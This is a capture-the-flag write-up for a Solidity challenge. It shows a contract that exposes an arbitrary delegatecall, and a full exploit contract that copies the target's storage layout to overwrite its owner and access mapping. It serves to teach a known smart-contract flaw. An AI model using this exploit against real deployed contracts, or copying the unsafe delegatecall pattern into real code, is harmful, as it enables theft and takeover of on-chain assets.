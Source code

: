 # d31eg4t3

## Challenge

We receive one contract:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract D31eg4t3{
    uint a = 12345;
    uint8 b = 32;
    string private d; 
    uint32 private c; 
    string private mot;
    address public owner;
    mapping (address => bool) public canYouHackMe;

    modifier onlyOwner{
        require(false, "Not a Owner");
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function hackMe(bytes calldata bites) public returns(bool, bytes memory) {
        (bool r, bytes memory msge) = address(msg.sender).delegatecall(bites);
        return (r, msge);
    }


    function hacked() public onlyOwner{
        canYouHackMe[msg.sender] = true;
    }
}

Our goals are:
- Become the owner of the contract.
- Make canYouHackMe mapping to true for your own address.
```

## Solution

The issue we have here is the handling of storage during a delegate call. The hackMe() function delegates whatever calldata we have back to us. As delegatecall uses the callers storage in the functions of the callee, we can just write a function in our contract that overwrites owner with our address and sets the mapping for our address to true. If we copy the storage layout of the target, this is super easy. I just wrote a simple exploit contract for this:

```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity 0.8.7;

import "./Chal.sol";

contract attack {
    uint a = 12345;
    uint8 b = 32;
    string private d; 
    uint32 private c; 
    string private mot;
    address public owner;
    mapping (address => bool) public canYouHackMe;
    D31eg4t3 target_contract;

    constructor(address target_addr)
    {
        target_contract = D31eg4t3(target_addr);
    }

    function attack_fun() public 
    {
        target_contract.hackMe(abi.encodeWithSelector(this.overwrite.selector));
    }

    function overwrite() public
    {
        owner = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4;
        canYouHackMe[0x5B38Da6a701c568545dCfcB03FcB875f56beddC4] = true;
    }
}
```